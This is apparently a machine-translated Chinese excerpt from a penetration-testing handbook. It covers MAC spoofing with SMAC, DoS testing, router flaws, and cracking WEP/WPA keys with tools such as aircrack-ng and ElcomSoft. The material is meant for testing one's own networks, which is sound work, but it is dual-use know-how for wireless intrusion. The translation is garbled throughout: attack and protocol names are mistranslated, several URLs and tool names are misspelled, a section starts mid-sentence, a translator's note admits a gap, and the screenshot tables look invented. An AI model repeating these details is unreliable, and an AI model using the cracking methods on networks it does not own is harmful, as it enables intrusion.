- 2. 选择你想更改 MAC 地址的适配器。

- 3. 在 New Spoofed MAC Address 字段中输入新的 MAC 地址，并点击 Update 按钮。

- 4. 通过以下步骤停止并重启网卡：

    - a. 在“网络拨号连接”中右键点击网卡，从右键菜单中选择“禁用”。
    - b. 再次右键点击，然后从右键菜单中选择“启用”使更改生效。

你可能需要重启系统才能使此过程正常工作。

- 5. 点击 SMAC 界面中的 Refresh 按钮。

要用 SMAC 还原注册表更改，请按照以下步骤操作：

- 1. 选择你想更改 MAC 地址的适配器。

- 2. 点击 Remove MAC 按钮。

- 3. 通过以下步骤停止并重启网卡：

    - a. 在“网络拨号连接”中右键点击网卡，从右键菜单中选择“禁用”。
    - b. 再次右键点击，然后从右键菜单中选择“启用”使更改生效。

你可能需要重启系统才能使此过程正常工作。

- 4. 点击 SMAC 界面中的 Refresh 按钮。

你应该再次看到你的原始 MAC 地址。

## 防止 ARP 投毒和 MAC 地址欺骗攻击的应对措施

网络中的一些应对措施可以尽量减少针对 ARP 和 MAC 地址攻击的影响：

- **预防：** 如果你的交换机能够开启端口安全以防止 MAC 地址表的自动更改，就可以防止 MAC 地址欺骗。

目前不存在针对 ARP 投毒的现实应对措施。防止 ARP 投毒的唯一方法是在网络中的每个主机上创建并维护静态 ARP 条目——在当今竞争激烈的环境中，几乎没有管理员有时间这样做。

- **检测：** 你可以通过 IPS 或独立的 MAC 地址监控工具检测到这两两种黑客攻击。

## 关于高级恶意软件你需要了解的知识

高级恶意软件（也称为高级持续性威胁 (APT））最近非常流行，特别是涉及勒索软件时。此类针对性攻击高度复杂化，且极难检测——除非你有适当的控制措施以及网络和主机。一个在一个大型企业工作项目的人被一个国家级实体针对（可能是因为该企业的工作），结果导致 10,000 台 Windows 服务器和工作站被恶意软件感染。该企业传统的大盒子杀毒软件完全无用用场。该项目最终被证明是一次广泛的事件响应和取证。感染被追溯到一次钓鱼攻击，随后通过使用密码破解工具传播到所有系统，这些工具能够破解每台 Windows 机器上的本地 SAM（安全账户管理器）文件。

这种恶意软件感染是许多组织尚未准备好防御的高级恶意软件示例之一。防止此类攻击显而易见的解决方案是防止用户点击链接，并防止恶意软件下载到系统上。这些攻击很难防止，甚至是不可能的。其次的方案是利用技术来处于优势地位。使用高级恶意软件监控和威胁保护工具来对抗这种威胁的好方法，例如 Windows Defender、Cylance (https://www.cylance.com)、来自 Palo Alto Networks (https://www.palaltonetworks.com/) 的下一代防火墙，以及有助于保护主机的白名单（正向安全）技术如 CB Protection (https://www.carbonblack.com/products/cb-protection/)。尽管如此，不要运行 Malware 和 Webroot 等传统的杀毒产品，它们现在也提供了对抗这种威胁的控制。

结论：不要低估针对性恶意软件攻击的风险和威力。

## 测试拒绝服务攻击

拒绝服务（DoS）攻击是最常见的黑攻击之一。黑客向网络主机发起大量无效请求，导致主机使用所有资源来响应这些无效请求，并忽略合法请求。

## DoS 攻击

针对你的网络和主机的 DoS 攻击可能会导致系统崩溃、数据丢失，并让每个用户都来找你，询问何时能恢复互联网访问。

以下是一些针对个人计算机或网络设备的常见 Dos 攻击：

- **SYN 洪水攻击：** 攻击者向主机发送大量的 SYN 数据包。
- **死亡之源 (Ping of Death)：** 攻击者发送超过 65535 字节最大长度 IP 包，这会导致许多操作系统的 TCP/IP 栈崩溃。
- **WinLuke：** 这种攻击可以禁用旧版 Windows 95 和 Windows NT 网络。

分布式拒绝服务 (DDoS) 攻击对受害的影响呈指数级增长。这类攻击最著名的例子是黑客 MafiaBoy 对 eBay、Yahoo!、CNN 以及几十个网站的 DDoS 攻击。后来还发生过来自格鲁吉亚（国家，不是我居住的州）的用户对 Twitter 的 DDoS 攻击，导致我无法推特，我的许多朋友和家人无法使用 Facebook（噢，人类！）。自此之后发生了多次公开的 DDoS 攻击。思考一下：当数百人因为一次 DDoS 攻击而离线时，你就能理解对业务系统和应用程序进行 DoS 测试的重要性。

## 测试

DoS 测试是你运行的最困难的安全检查之一。你没有足够的人和计算机可用。别担心，你可以运行几次测试来查看哪里薄弱。你的第一个测试应该是从漏洞扫描的角度进行 Do 漏洞。通过使用 Nexpose (https://www.rapid.com/products/nexpose) 和 AppSpider (https://www.rapid.com/products/appspider) 等扫描器，你可以发现导致 Dos 的补丁和配置缺陷。一个 Cisco 相关的工具 Synful Knock Scanner (http://talosintel.com/scanner) 可以测试系统是否受到 2015 年发现的任何 Synful Knock 恶意软件的影响。

无论你使用哪一个，良好的扫描器和利用工具都能为你节省大量时间和精力，这些时间可以花在其他更重要的事情上，如 Facebook 和 Twitter。

除非你有测试系统或可以使用正确的工具进行测试，否则不要测试 Dos。计划不当的 Dos 是麻烦。运行错误的 Dos 测试就像尝试从网络共享删除数据并希望访问控制会阻止它一样。


## 需要演示漏洞利用

我曾进行过一次安全评估，在期间我使用 Qualys 在运行在 Web 服务器上的旧版 OpenSSL 中发现了一个漏洞。对于大多数拒绝服务（DoS）的发现，我并没有直接利用该漏洞，因为我不想导致生产系统宕机。相反，我将其列为中等优先级漏洞——一个具有被利用风险的问题。我的客户对此表示异议，认为系统中并没有 OpenSSL。在获得许可后，我下载了互联网上提供的利用代码并对其进行编译，并在客户的服务器上运行。果不其然，代码导致服务器离线。

起初，我的客户认为这次攻击是偶然，但在我再次让服务器离线后，他承认了漏洞的存在。他使用的是一种 OpenSSL 的衍生版本，正是这导致了漏洞。如果我的客户解决了这个问题，世界上上的任何攻击者都可能让这个生产系统离线并保持离线状态，这既棘手又耗时，对业务大为不利！

其他值得关注的 DoS 工具包括 UDPFlood (https://www.mcafee.com/us/downloads/free-tools/udpflood.aspx)、Blast (https://www.mcafee.com/us/downloads/free-tools/blast.aspx)、NetScanTools Pro 和 CommView。

## 防御 DoS 攻击的措施

大多数 DoS 攻击很难预测，但它们很容易预防，方法如下：

- **尽快为网络主机（如路由器和防火墙）以及服务器和工作站操作系统测试并应用安全补丁（包括服务包和固件更新）。**

- **使用 IPS 监控 DoS 攻击。** 如果你无法证明全面 IPS 解决方案的成本，可以在连续捕获模式下运行网络分析器并用它监控 DoS 攻击。

- **配置防火墙和路由器以阻塞畸流量。** 只有在你的系统支持的情况下，你才能实施此防御措施，详情请参阅管理员指南。

- **最小化 IPS 伪造**，通过过滤掉看似来自内部地址、本地主机（127.0.0.1）或任何私有且非路由地址（如 10.x.x.x、172.16.x.x–172.31.x.x 或 192.168.x.x）的外部数据包。Cisco Systems 的下文提供了更多信息：https://www.cisco.com/web/about/ac123/ac147/archive_issues/ip_j_10-4_ip_spoofing.html。

- **除非明确需要，否则阻止入站你网络的 ICMP 流量。** 即使如此，也应只允许其进入特定的主机。

- **禁用所有不需要的 TCP/UDP 小型服务**，如 echo（回显）和 charger（充电）。

在 DoS 攻击发生之前，为你的网络协议和流量模式建立基准。这样，你就知道要寻找什么。此外，定期扫描此类的 DoS 漏洞，例如安装在网络主机上的恶意 DoS 软件。

如果你陷入困境并面临直接 DoS 攻击，可以联系托管服务供应商，如 Imperva Incapsula (https://www.incapsula.com/)、CloudFlare (https://www.cloudflare.com/) 和 DoSArrest (https://www.dosarrest.com/)。

在配置网络设备（如防火墙和路由器）时，要坚持“最小必要”原则（不要与拥有许多精酿啤酒混淆）。识别对于授权网络使用是必需的流量。允许所需的流量。拒绝所有其他流量。

如果情况最糟糕，请询问你的互联网服务提供商是否可以从其端侧封锁 DoS 攻击。


## 检测常见的路由器、交换机和防火墙缺陷

除了我在本章涵盖的技术利用手段外，网络设备上常见的某些高级安全漏洞可能会引发许多问题。

## 寻找不安全的接口

你需要确保路由器、交换机和防火墙的 HTTP 和 Telnet 接口没有配置空白、默认或其他容易猜测的密码。这听起来是显而易见的，但它是最常见的缺陷之一。当恶意内部人员或其他攻击者获得你的网络设备访问权限时，他就拥有了整个网络。他可以锁定管理访问、设置后门用户账户、重新配置端口，甚至在你完全不知情的情况下导致整个网络崩溃。

我发现过一次系统集成配置 Cisco ASA 防火墙时使用了简单的密码，并能够以完全管理员权限登录防火墙。想象一下，如果一个带有恶意的人发现了这个密码，在这种情况下会发生什么。教训是：细节会害了你。了解你的供应商在做什么，并时刻关注他们！

另一个缺陷与许多网络设备上启用并使用的 HTTP、FTP 和 Telnet 有关。想猜猜为什么这种情况是个问题吗？任何拥有免费工具并花几分钟时间的人都可以扫描网络，并在这些系统以明文传输凭据时捕获它们。当这种情况发生时，一切都可以。

## 揭示 SSL 和 TLS 的问题

安全套接层 (SSL) 和传输层安全 (TLS) 长期被视为保护通信的解决方案。最近，SSL 和 TLS 遭受了 Heartbleed、填充 Oracle降级攻击 (POODLE) 和 RSA 分因子攻击 (FREAK) 的攻击。

如果你不确定现有的 SSL 漏洞，Qualys 有一个很好的网站叫 SSL Labs (https://www.ssllabs.com/)，可以为你进行扫描。除了 SSL/TLS 漏洞外，还要关注：

- SSL 2.0 和 3.0 版本
- 弱加密算法如 RC4 和 SHA-1

无论针对系统的特定攻击如何，一些良好的实践可以防止许多网络问题：

- 使用监控防火墙会话的状态检查规则。
- 实现基于类型、TCP/UDP 端口、IP 地址甚至特定接口的数据包过滤规则。
- 使用代理过滤和网络地址转换 (NAT) 或端口地址转换 (PAT)。
- 通过 IPS 发现并消除进入网络的分片包（来自 Fraggle 或攻击）。
- 将你的网络设备纳入漏洞扫描。
- 确保你的网络设备应用了最新的固件和补丁。
- 在所有网络系统上设置强密码（或者，短语）。我将在第 8 章中详细介绍密码。
- 你的虚拟网络不要使用互联网密钥交换 (IKE) 聚合模式。如果必须使用，请确保短语强并定期更改（例如每 6 到 12 个月一次）。
- 连接到网络设备时始终使用 TLS（通过 HTTPS）或 SSH。
- 禁用 SSL 和弱加密算法，尽可能使用 TLS 1.2 版本和 SHA-2 等强加密算法。
- 对网络进行分段，并在以下位置使用防火墙：
    - DMZ 区
    - 内部网络
    - 按业务功能或部门划分的关键子网，例如会计、财务、人力资源和研发。


让你的网络瘫痪，或者让你的敏感信息凭空被他人窃取。如果你的无线网络被攻破，你可能会遇到以下问题：

- 失去网络访问，包括电子邮件、网页或其他服务，这可能导致业务停机。
- 丢失敏感信息，包括密码、客户数据和知识产权。
- 可能与未经授权的用户访问你的业务系统而相关的监管后果和法律责任。

这些漏洞中的大多数存在于 802.11 标准的实现中。无线接入点（路由器）和无线终端系统也可能存在漏洞。

近年来出现了一些针对这些漏洞的各种修复方法，但其中许多并没有被正确应用，或者默认未启用。此外，你的员工可能会在你不知情的情况下在网络上安装流氓设备。在员工工作的任何地方都有“免费”Wi-Fi 的问题。从咖啡馆到会议中心，互联网连接都可能对你的整体信息安全构成严重威胁，我必须说，这是相当棘手的对手。即使 Wi-Fi 经过了加固并应用了所有最新的补丁，你可能仍然面临安全问题，例如拒绝服务（DoS）、中间人攻击和加密密钥缺陷（类似于有线网络；见第 9 章），这些问题可能会持续很一段时间。

## 选择你的工具

Windows 和 Linux 平台都提供了许多出色的安全工具。早些时候，Linux 无线工具的配置和运行非常困难，可能因为我我不聪明。这个问题在几年里发生了变化，有了如 Kismet (https://www.kismetwireless.net)、Wellerreiter (https://sourceforge.net/projects/wellenreiter) 和 Kali Linux (https://kali.org) 等程序。

如果你想获得运行在 Linux 上的安全工具的力量，但你又对安装和了解 Linux 感兴趣，或者没有时间下载并设置许多流行的安全工具，我强烈建议查看 Kali Linux。[此处原文似乎断了，推测为 Kali Linux 这种基于 Debian 的可启动安全测试套件]


自带了一系列相对易用的工具。备选的可启动（实时）测试套件还包括基于 Fedora Linux 的网络安全工具 (www.networksecuritytoolkit.org)。在 www.livecdlist.com 可以找到完整的实时可启动 Linux 工具列表。

我在本章中概述的大多数测试只需要基于 Windows 的实用程序，但使用你最熟悉的平台。这样你会获得更好的结果。我在 Windows 上评估无线网络最喜爱的工具如下：

- Aircrack-ng (http://aircrack-ng.org)
- CommView for WiFi (https://www.tamos.com/products/commwifi)
- Elcomsoft Wireless Security Auditor (https://www.elcomsoft.com/ewsa.html)
- Omnipeek (www.savvius.com)

你可以使用手持无线安全测试设备，例如 Canary Wireless 的 Handy Hotspot (www.canarywireless.com)，甚至可以使用你基于 Android 的手机或平板电脑（带有 WiSpy 或 WiFi Analyzer 应用），或带有 Network Analyzer Pro 和 Network Multimeter 应用的 iOS 设备。外接天线也是你武器库中可以考虑的一部分。我在没有天线的情况下运行测试运气不错，你的运气取决于你距离无线信号有多远。如果你正在对设施进行巡检以测试无线信号，使用额外的天线会增加你发现合法（更重要的是）未经授权无线系统的概率，但这样做可能不是必须的。你可以选择三种类型的无线天线：

- 全向性：在短距离内 360 度范围内传输和接收无线信号，例如在会议室或接待区。这些天线也称为偶极天线，通常在工厂安装在接入点（AP）上。
- 半方向性：在中等距离内定向传输和接收无线信号，例如沿着走廊横跨办公室或建筑的一侧。
- 定向：在远距离传输和接收高度集中的无线信号，例如建筑之间。这种天线也称为高增益天线，是环城市寻找漏洞 AP 的无线黑客的首选天线——这种行为被称为“无线入侵”（wardriving）。

作为上述列表中天线的替代方案，你可以使用一种巧妙的设计——被称为“罐天线”（cantenna），由薯片罐、咖啡罐或猪豆罐制成。如果你对尝试这种天线感兴趣，请查看 www.turnpoint.net/wireless/has.html 上的详情。如果你感兴趣，简单的互联网搜索就能找到大量关于该主题的信息。

## 发现无线网络

当你拥有无线网卡和无线测试软件后，就可以准备好大展身手了。你应该进行的第一个测试是收集有关你无线网络的信息，如下文节所示。务必在你的生产无线网络、访客无线网络甚至你可能使用的测试无线系统上进行这些检查。你永远不知道漏洞隐藏在哪里！

## 检查全球认可度

第一个测试只需要你 AP 的媒体访问控制（MAC）地址和访问互联网的权限。你可以在本章后面的“MAC 欺骗”部分了解更多 MAC 地址。测试的工作原理如下：

1. 找到你 AP 的 MAC 地址。如果你不确定它的 MAC 地址是什么，你应该能够在 Windows 命令行提示符处使用 ARP（地址解析协议）命令查看它。图 10-1 显示了它的样子。

C:\> arp -a

| | 物理地址 | 类型 |
| :--- | :--- | :--- |
| 00-0c-29-4f-8b-c1 | | |
| 00-0c-29-4f-8b-e2 | | |
| 00-0c-29-4f-8b-e3 | | |
| 00-0c-29-4f-8b-e4 | | |
| 00-0c-29-4f-8b-e5 | | |
| 00-0c-29-4f-8b-e6 | | |
| 00-0c-29-4f-8b-e7 | | |
| 00-0c-29-4f-8b-e8 | | |
| 00-0c-29-4f-8b-e9 | | |
| 00-0c-29-4f-8b-0a | | |
| 00-0c-29-4f-8b-0b | | |
| 00-0c-29-4f-8b-0c | | |
| 00-0c-29-4f-8b-0d | | |
| 00-0c-29-4f-8b-0e | | |
| 00-0c-29-4f-8b-0f | | |
| 00-0c-29-4f-8b-10 | | |
| 00-0c-29-4f-8b-11 | | |
| 00-0c-29-4f-8b-12 | | |
| 00-0c-29-4f-8b-13 | | |
| 00-0c-29-4f-8b-14 | | |
| 00-0c-29-4f-8b-15 | | |

2. 获得 MAC 地址后，访问 Wigle 数据库 (https://wigle.net) 查看是否被列出。在 BSSID/MAC 文本框中输入你的 MAC 地址。


图 10-1：使用 arp 查找 MAC 地址。

3. 在网站注册；点击右上角的 Search 链接查看你的 AP 是否列出。


图 10-2：使用 Wigle 搜索 AP。

如果你的 AP 被列出，说明有人通过无线入侵发现了它，并将信息发布给其他人查看。你必须尽快实施本章列出的安全措施以防止他人利用这些信息。


## 发现无线网络攻击并采取应对措施

各种恶意攻击——包括拒绝服务（DoS）攻击——都可以针对您的无线网络进行，迫使接入点（AP）在断开网络并重新连接的过程中暴露其 SSID；黑客可以干扰 AP 的信号——特别是在 802.11b 和 802.11g 系统中——并迫使无线客户端重新关联到伪装成受害者的虚假 AP。

黑客可以使用如 WiFi Pineapple (https://www.wifineapple.com) 等工具创建中间人攻击。他们还可以使用原始数据包生成工具 Nping (https://nmap.org/ping) 和 NetScanTools Pro (www.netscantools.com) 每秒向您的网络灌入数千个数据数据包——这足以让网络瘫痪。尽管如此，与有线网络相比，这种类型的攻击在 Wi-Fi 上非常难以防御。

您可以对自己的无线网络进行攻击测试。相关的应对措施有助于保护您的网络免受这些漏洞的影响，并免受我上述提到的恶意攻击。在测试您的无线网络安全性时，请留意以下弱性：

- 未加密的无线流量
- 弱的 WEP、WPA 和 WPA2 预共享密钥
- 可破解的 Wi-Fi 安全设置 (WPS) PIN 码
- 未授权的 AP
- 易于绕过的 MAC 地址控制
- 物理上可接触的无线设备
- 默认配置设置

测试的良好起点是以外部身份连接到您的网络，并运行通用的漏洞扫描工具，例如 LangGuard 或 Nexpos。此测试让您能够看到其他人在您的网络上能看到的内容，包括操作系统版本信息、AP 上的开放端口，甚至是无线客户端上的网络共享。图 10–4 显示了关于您网络上 AP 可以泄露的信息类型，包括缺少管理员密码、过时的操作系统以及可以被利用的开放端口和共享。



图 10-4：
LangGuard 对运行中的 AP 进行扫描。

## 不要怀疑忽视蓝牙

您无疑在组织内部运行着各种支持蓝牙的无线设备，如笔记本电脑和智能手机。虽然漏洞不像 802.11 标准的 Wi-Fi 网络那样普遍，但它们仍然存在（目前，http://nvd.nist.gov 列出了超过 175 个与蓝牙相关的漏洞），许多黑客工具利用了这些漏洞。您可以通过构建和使用 BlueSniper 步枪来克服蓝牙信号的局域网距离限制（通常为几米/10 英尺）并攻击蓝牙设备。（网站见下列表）。用于蓝牙认证/配对和数据传输的各种资源和工具包括：

- Blooover (https://trifinite.org/trifinite_stuff_blooover.html)
- Blueog（Kali Linux 的一部分）
- BlueScanner (https://sourceforge.net/projects/bluescanner)
- Bluesnarfer (https://www.alighieri.org/tools/bluesnarfer.tar.gz)
- BlueSniper 步枪 (https://www.tomsguide.com/us/how-to-bluesniper-pt1,review-408.html)
- Btcscanner（Kali Linux 的一部分）
- Car Whisper (`https://trifinite.org/trifinite_stuff_carwhisperer.html`)
- 关于各种蓝牙攻击的详细演示 (`http://trifinite.org/Downloads/21c3_Bluetooth_Hacking.pdf`)

许多（可以说是大部分）与蓝牙相关的漏洞并不是高风险的，但您仍然根据自己的独特情况来处理它们。请确保蓝牙测试在您的整体安全测试和监督范围内进行。

## 加密流量

无线流量可以直接从空气中截获，使得这种通信媒介容易受到窃听。除非流量经过加密，否则它将以明文发送和接收，就像标准有线网络一样。802.11 加密协议、有线等效隐私 (WEP)——是的，它仍然存在——以及 Wi-Fi 安全访问（WPA 和 WPA2）都有其缺陷，允许攻击者破解加密密钥并解密截获的流量。可以说，这种漏洞曾帮助 Wi-Fi 在市场上占有一席之地。

在某种意义上，WEP 始终符合其实名：它提供了与有线网络相当的隐私保护。它的设计初衷并非为了轻易破解，WEP 使用一种相当对称的（共享密钥）加密算法 RC4。由于协议中实现 RC4 初始化向量 (IV) 的方式存在缺陷，黑客可以观察加密的无线流量并恢复 WEP 密钥。这种弱性的产生是因为 IV 仅有 24 位，导致它每 1670 万个数据包就会重复一次——根据进入和离开网络的无线客户端数量，频率甚至更短。

大多数 WEP 实现使用为 0 的 IV 初始化无线硬件，并每发送一个数据包加 1，这可能导致 IV 大约每五小时重启（重新开始）。这种行为使得使用量较低的 Wi-Fi 网络可能比传输大量无线数据的大型 Wi-Fi 环境更安全，因为产生的流量不足。


使用 Aircrack (`https://sourceforge.net/`) 截获空气中的流量，攻击者只需收集几分钟到几天流量（取决于网络流量大小）即可破解 WEP 密钥。图 10–5 显示了 aircrack-ng 的工作。

| BSSID | 功率 | CH | ESSID |
| :--- | :--- | :--- | :--- |
| 00:11:22:33:44:55 | -42 | 6 | 测试 |
| 00:11:22:33:44:56 | -45 | 1 | 测试 |
| 00:11:22:33:44:57 | -47 | 2 | 测试 |
| 00:11:22:33:44:58 | -48 | 3 | 测试 |
| 00:11:22:33:44:59 | -50 | 4 | 测试 |
| 00:11:22:33:44:60 | -51 | 5 | 测试 |

| NB | 深度 | 数据包(s) | 测试 |
| :--- | :--- | :--- | :--- |
| 1 | 104876 | WEP | |
| 2 | 17549 | WEP | |
| 3 | 25612 | WEP | |
| 4 | 33725 | WEP | |
| 5 | 41738 | WEP | |
| 6 | 49851 | WEP | |
| 7 | 57864 | WEP | |
| 8 | 65977 | WEP | |
| 9 | 73990 | WEP | |
| 10 | 82003 | WEP | |

| STATION | WEP | 密钥 |
| :--- | :--- | :--- |
| AA:BB:CC:DD:EE:FF | WEP | |
| AA:BB:CC:DD:EE:00 | WEP | 12345678
| AA:BB:CC:DD:EE:01 | WEP | |
| AA:BB:CC:DD:EE:02 | WEP | |
| AA:BB:CC:DD:EE:03 | WEP | |

| AA:BB:CC:DD:EE:FF | WEP | 12345678 |

airdump 和 aircrack 在 Windows 上运行非常简单。下载并提取 aircrack 程序、Kali Linux 环境，你就可以开始捕获数据包并进行破解了！




使用 EUSA，你可以尝试破解你的 WEP/WPA/WPA2 PSK，速度每秒高达 173,000 个 WPA/WPA2 PSK。与使用 CPU 每秒仅几百密钥的低效速度相比，你就能看出这种工具的价值了。我说一分钱一分货！

如果你在安全评估过程中需要使用网络分析仪来查看流量，那么在启用 WEP 或 WPA/WPA2 的情况下，除非你知道每个网络关联密钥，否则你将看不到任何流量。你可以将每个密钥输入分析仪中，但如果黑客能够通过我之前提到的某一个工具破解你的 WEP 或 WPA PSK，他们也可以同样这样做。

图 10-8 显示了如何在启动数据包捕捉之前，在 Omnipeek 的捕捉选项（Capture Options）窗口中输入 WEP 密钥，从而查看你的 WLAN 协议。

## 针对加密流量攻击的防御措施

解决 WEP 问题最简单的解决方案是将所有无线通信迁移到 WPA2。你也可以在 Windows 环境中使用私有网络——免费的——通过启用点对点隧道协议（PPTP）进行客户端通信。或者，你可以使用 Windows 内置的 IPSec 支持，以及安全外壳（SSH）、安全套接层/传输层安全（SSL/TLS）和其他其他厂商的专用解决方案来保持你的流量安全。只需记住，破解程序也适用于 PPTP、IPSec 和其他 VPN 协议，但总体而言你是相当安全的，特别是与完全没有虚拟专用网络相比。



图 10-8
使用 Omnipeek 查看加密的无线流量。

同时也存在基于 802.11 的解决方案。如果你配置无线主机在发送一定数量的数据包后动态注册新密钥，那么 WEP 漏洞就无法被利用。任何 AP 供应商已将此作为一个单独配置选项，因此请检查最新的固件以管理密钥轮换。例如，思科专有的 LEAP 协议使用每个用户的 WEP 密钥，如果你运行思科硬件，这可以提供一层保护。再次，要小心，因为存在针对 LEAP 的破解程序，如 asleep (http://sourceforge.org/projects/asleep)。最好的办法就是远离 WEP。

电气电气电子工程师学会（IEEE）的 802.11 标准集成了 WPA 的修复方案及更多内容。该标准是对 WPA 的改进，但与旧的 802.11 硬件兼容，因为它在 WPA2 中实现了高级加密标准（AES）进行加密。

如果你使用带有 PSK 的 WPA2（对于小型 Wi-Fi 来说足够了），确保密钥包含至少 20 个随机字符，这样它就不会受到 Airc-ng 和 ElcomSoft Wireless Security Auditor 等工具提供的离线字典攻击。ElcomSoft Wireless Security Auditor 的攻击设置如图 10-9 所示。

| 攻击设置 | 编辑攻击设置 | | | | |
| :--- | :--- | :--- | :--- | :--- | :--- |
| 字典 | 单词攻击 | 组合攻击 | 混合攻击 | 自定义攻击 | |
| * | - 小拉丁字母 (a-z) | | | | |
| * | - 大写拉丁字母 (A-Z) | | | | |
| 78 | - 来自小特殊字符中的符号 | | | | |
| 79 | - 特殊字符中的符号 | | | | |
| 80 | - 0 到9 的数字 | | | | |
| 81 | - 从最小到最大的数字或数值 | | | | |
| [10-max] | - 使用定义的字符 1-9 进行暴力破解（范围从最小到最大长度） | | | | |
| 密码掩码 | | | | | |
| 掩码 | | | | | |
| 密码总数 | 100 000 000 | | | | |
| 密码范围 | 00000000 99999999 | | | | |
| 自定义字符 | | | | | |

图 10-9：ElcomSoft Wireless Security Auditor 的众多密码破解选项。



如你所示，从纯字典攻击到连接攻击到使用特定单词规则的混合攻击，一切皆可用。使用长且随机 PSK，这样你就不会成为那些时间充裕之人的受害者！

请记住，虽然 WEP 和弱的 WPA PSK 可以被破解，但它们仍然比完全不加密要好得多。类似于家庭安防系统标志对潜在家庭入侵者的作用，一个运行 WEP 或弱 WPA PSK 的无线网络对犯罪黑客来说，并不像没有加密那样有吸引力。许多入侵者可能会转向更容易的目标，除非他们真的想进入你的网络。

## Wi-Fi 安全设置

Wi-Fi 安全设置 (WPS) 是一种允许简单连接到 AP 的标准。WPS 的问题在于它的实现使得某人很容易攻击你的网络。

WPS 供家庭使用，但如果你需要启用 WPS，至少要在 AP 上设置 MAC 地址控制。这种修复并非万无一失，但总比没有要好。在企业中防止 WPS 攻击的办法就是不要使用 WPS。


在图 10-12 中，NetStumbler 发现了两个可能未经授权的 AP（接入点）。最引人注目的是 SSID 为 Bl 和 LarsWorld 的两个。注意，它们运行在不同的通道上，以不同的速度运行，并且由两个不同的硬件厂商制造。如果你知道你的无线网络上应该运行什么（你当然知道，不是吗？），那么未经授权的系统就会脱颖而出。



# 图 10-12：
NetStumbler 显示可能未经授权的 AP。

NetStumbler 确实有一个局限性：它找不到禁用了探测响应（SSID 广播）包的 AP。如 CommView for WiFi 等商业无线网络分析仪以及开源的 Kismet，不仅可以检测 AP 的探测响应（如 NetStumbler），还能检测其他 802.11 管理包，例如关联响应和信标（beacon）。这些管理包允许 Kismet 检测到隐藏 Wi-Fi 的存在。

如果你不是 Linux 平台的粉丝，并且仍然在寻找一种快速粗暴的方法来根除隐藏 AP，你可以创建一个客户端到 AP 的重连场景，强制通过去认证包（deauthentication packets）强制广播 SSID。你可以在我和同事 Peter T. Davis 共同编写的《傻瓜破解无线网络》（Hacking Wireless Networks For Dummies, Wiley）一书中找到详细的说明。

根除隐藏 AP 最安全的方法是搜索 802.11 管理包。你可以配置你的无线网络分析仪，通过启用 802.11 管理包来捕获过滤器，如图 10-13 中 Omnipeek 的选项所示。

图 10-14 显示了你如何使用 CommView for WiFi 来发现异常的网络主机。在图 10-14 中，显示了 Techno 和 Netgear 系统，但这个特定网络仅使用了 Ubiquiti 硬件。

我这个示例的测试与你可能会看到的相比很小，但它让你理解了异常系统是如何脱颖而出的。

## 协议过滤器

## Canvas 原型

名称：802.11 管理

| 名称 | 层级 | 描述 |
|---|---|---|
| 802.11 Data | 802.11 Data | 数据帧封装了交付的上层协议负载 |
| 802.11 Dissociation | 802.11 Dissociation | 数据包是断开现有关联的公告 |
| 802.11 Request | 802.11 Request | 有 11 种管理帧类型。所有管理帧都包含 |
| 802.11 Null Data | 802.11 Null Data | |
| 802.11 Probe Req | 802.11 Probe Req | 探测响应（Probe Response）是对探测请求的回复，带有站台参数 |
| 802.11 Probe Resp | 802.11 Probe Resp | 并定期发送以监听选择帧 |
| 802.11 Qdl-CF | 802.11 Qdl-CF | |



图 10-13：
你可以配置 Omnipeek 来检测不广播 SSID 的 AP。

